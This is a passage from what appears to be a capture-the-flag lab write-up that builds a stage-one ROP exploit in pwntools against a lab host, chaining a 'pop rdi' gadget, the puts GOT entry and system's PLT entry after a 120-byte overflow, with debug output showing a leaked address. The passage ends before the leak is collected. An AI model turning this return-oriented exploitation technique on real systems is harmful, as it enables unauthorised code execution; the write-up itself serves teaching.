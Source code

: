

The gadget at 0x40120b looks perfect.

This all builds together to look like:



    #!/usr/bin/env python

    from pwn import *

    context(os="linux", arch="amd64")
    context(log_level='DEBUG')

    junk = "A"*120

    got_puts = p64(0x404018)
    plt_system = p64(0x401040)
    pop_rdi  = p64(0x40120b)
    main     = p64(0x40115f)
    payload = junk + pop_rdi + got_puts + plt_system + main

    p = remote("10.10.10.147", 1337)
    p.recvline()
    p.sendline(payload)
    p.recvline()



When I run it, I get:



    root@kali# ./pwn_safe-m1_stg1.py 
    [+] Opening connection to 10.10.10.147 on port 1337: Done
    [DEBUG] Received 0x3e bytes:
        ' 15:12:49 up 17:00,  0 users,  load average: 0.00, 0.00, 0.00\n'
    [DEBUG] Sent 0x99 bytes:
        00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
        *
        00000070  41 41 41 41  41 41 41 41  0b 12 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
        00000080  18 40 40 00  00 00 00 00  40 10 40 00  00 00 00 00  │·@@·│····│@·@·│····│
        00000090  5f 11 40 00  00 00 00 00  0a                        │_·@·│····│·│
        00000099
    [DEBUG] Received 0x7 bytes:
        'sh: 1: '
    [DEBUG] Received 0x50 bytes:
        00000000  90 ff 80 65  21 7f 3a 20  6e 6f 74 20  66 6f 75 6e  │···e│!·: │not │foun│
        00000010  64 0a 20 31  35 3a 31 32  3a 34 39 20  75 70 20 31  │d· 1│5:12│:49 │up 1│
        00000020  37 3a 30 30  2c 20 20 30  20 75 73 65  72 73 2c 20  │7:00│,  0│ use│rs, │
        00000030  20 6c 6f 61  64 20 61 76  65 72 61 67  65 3a 20 30  │ loa│d av│erag│e: 0│
        00000040  2e 30 30 2c  20 30 2e 30  30 2c 20 30  2e 30 30 0a  │.00,│ 0.0│0, 0│.00·│
        00000050
    [*] Closed connection to 10.10.10.147 port 1337



I can see the address in there before the string ": not found". I'll add
some code to collect it, and turn off debug output:
